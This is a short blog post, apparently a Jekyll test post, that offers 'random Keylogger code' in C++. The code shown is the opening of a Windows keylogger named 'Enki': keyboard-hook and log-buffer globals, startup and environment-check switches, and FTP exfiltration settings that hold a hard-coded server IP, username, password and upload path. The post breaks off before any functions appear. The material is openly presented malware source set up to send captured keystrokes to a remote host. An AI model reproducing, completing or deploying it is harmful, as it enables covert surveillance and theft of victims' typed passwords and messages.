 ```yaml
---
layout: post
title:  "Test post"
date:   2016-04-24 00:00:00 +0100
categories: who nullbyte
tags:
 - test
author: dTm
---
```


## Test post from dTm

Suh dudes.

## Some random Keylogger code here in C++

{% highlight c++ lineos %}
#include <string.h>
#include <Windows.h>
#include <WinInet.h>
#include <ShlObj.h>

#pragma comment(lib, "WININET")

#define DEBUG
#define STARTUP
#define CHECK_ENV

#define NAME "Enki"
#define KEY_FILE "\\keylog.txt"

// FTP settings
#define FTP_SERVER "185.27.134.11"
#define FTP_USERNAME "b22_15913214"
#define FTP_PASSWORD "huihui1A"
#define FTP_LOG_PATH "/htdocs/Enki_Log.txt"

#define MAX_LOG_SIZE 4096
#define BUF_SIZ 1024
#define BUF_LEN 1
#define MAX_VALUE_NAME 16383

#define HOTKEY_ID 69

#define TIMEOUT 1000 * 60 * 1 // minutes

// global handle to file
HANDLE ghFile = NULL;
// global handle to hook
HHOOK ghHook = NULL;
// global handle to mutex
HANDLE ghMutex = NULL;

// global handle to log heap
HANDLE ghLogHeap = NULL;
// global string pointer to log buffer
LPSTR lpLogBuf = NULL;
// current max size of log buffer
DWORD dwLogBufSize = 0;

// timer
DWORD dwTime = 0;

// keylog file path
CHAR LogFilePath[MAX_PATH];
